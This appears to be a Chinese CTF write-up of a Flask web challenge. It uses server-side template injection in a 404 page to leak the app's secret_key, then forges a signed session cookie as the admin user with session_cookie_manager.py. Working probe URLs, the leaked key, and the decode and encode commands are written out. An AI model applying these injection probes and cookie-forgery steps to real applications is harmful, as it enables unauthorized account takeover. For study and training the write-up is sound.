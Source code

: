 登录会显示用户名，正常情况下，admin用户是无法登录的。

![1209628-20181207203705974-2070684584](https://i.imgur.com/LlDvRrX.png)


利用404页面的ssti读取内置变量，还有其它一些常用方法可以参考：https://blog.csdn.net/qq_33020901/article/details/83036927

```bash
# 输出hello 2，确定是模板注入
http://118.25.18.223:3001/{{1+1}}

http://118.25.18.223:3001/{{config}}

http://118.25.18.223:3001/{{''.__class__.__mro__}}
# 发现可以，觉得大概是沙箱逃逸了
```


![attack](https://i.imgur.com/UzdZoNo.png)

![20190223211856417](https://i.imgur.com/w0r5P8s.png)


## 伪造session登陆

注入`{{config}}`得到了`secret_key`，
- 抓取session利用GitHub的`session_cookie_manager.py`解密`session`，
- 发现user_id是个数字，把它改成 admin 加密后访问失败。
- 注册两个新账号whd1/whd2发现其 user_id 为 164/165
- 猜测admin的user_id为01.
- 成功得到flag


**cookie**:

```bash
# 我之前登录的cookie是：
Cookie: session=eyJ1c2VybmFtZSI6ImhlaGUifQ.XApTkw.zcIUPrpo71h_doQs_GKtDlLesP8

# 使用session_cookie_manager.py解开得到用户信息。
# $ python session_cookie_manager.py decode -s "secret_key" -c "Cookie: session"
$ python session_cookie_manager.py decode -s "a8bc2e85-d628-40f0-a56d-a86b19b4c1f9" -c "eyJ1c2VybmFtZSI6ImhlaG UifQ.XApTkw.zcIUPrpo71h_doQs_GKtDlLesP8"
# {u'username': u'hehe'}
# {u'csrf_token':u'xxxxxxxx', u'_fresh':True, u'user_id':u'28', u'_id':u'xxxxxxxx'}

# 伪造admin用户身份：
$ python session_cookie_manager.py encode -s "a8bc2e85-d628-40f0-a56d-a86b19b4c1f9" -t "{u'username': u'admin' }"
eyJ1c2VybmFtZSI6ImFkbWluIn0.XArr2w.O2zQzR4fFLCrGhDLjWol8-mLp7E
```

提交生成的cookie：用admin身份成功登录。

![1209628-20181207205516587-1118649062](https://i.imgur.com/xPNkJ0T.png)


![20190223211926119](https://i.imgur.com/yn48wFR.png)



---


ref:
- [客户端 session 导致的安全问题](https://www.leavesongs.com/PENETRATION/client-session-security.html)
